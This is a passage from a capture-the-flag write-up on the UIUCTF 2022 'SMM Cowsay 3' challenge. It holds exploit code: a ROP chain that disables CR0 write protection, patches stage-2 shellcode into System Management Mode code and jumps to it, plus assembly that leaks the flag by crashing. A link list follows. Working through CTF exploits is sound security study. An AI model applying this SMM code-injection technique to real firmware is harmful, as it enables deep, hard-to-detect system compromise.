 ```python
    mov qword ptr [rbx + 8 * 0x40], rax

    /* Read flag and die so regs get dumped, GG! */
    movabs rax, 0x44440000
    mov rax, qword ptr [rax]
    ud2
''')
```

Again, we can run the exploit multiple times changing that `0x44440000` to leak
8 bytes at a time and obtain the full flag.

### Putting it all together

Now we can build the ROP chain and send the exploit in the same way we did for
SMM Cowsay 2:

```python
real_chain = [
    # Unset CR0.WP
    pop_rax_rbx_r12, # pop rax ; pop rbx ; pop r12 ; ret
    0x80000033     , # -> RAX
    0xdeadbeef     , # filler
    0xdeadbeef     , # filler
    mov_cr0_rax    , # mov cr0, rax ; wbinvd ; ret
]

# Now that CR0.WP is unset, we can just patch SMM code and jump to it!
# Make the ROP chain write the stage 2 shellcode at PiSmmCpuDxeSmm_text
# 8 bytes at a time, then jump into it
for i in range(0, len(stage2_shellcode), 8):
    chunk = stage2_shellcode[i:i + 8].ljust(8, b'\x90')
    chunk = u64(chunk)

    real_chain += [
        pop_rax_rbx_r12        , # pop rax ; pop rbx ; pop r12 ; ret
        chunk                  , # -> RAX
        PiSmmCpuDxeSmm_text + i, # -> RBX
        0xdeadbeef             ,
        write_primitive        , # mov qword ptr [rbx], rax ; pop rbx ; ret
        0xdeadbeef
    ]

real_chain += [PiSmmCpuDxeSmm_text]

# Transform real ROP chain into .quad directives to embed in the shellcode:
#   .quad 0x7f8a184
#   .quad 0x80000033
#    ...
real_chain_size = len(real_chain) * 8
real_chain      = '.quad ' + '\n.quad '.join(map(str, real_chain))
```


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31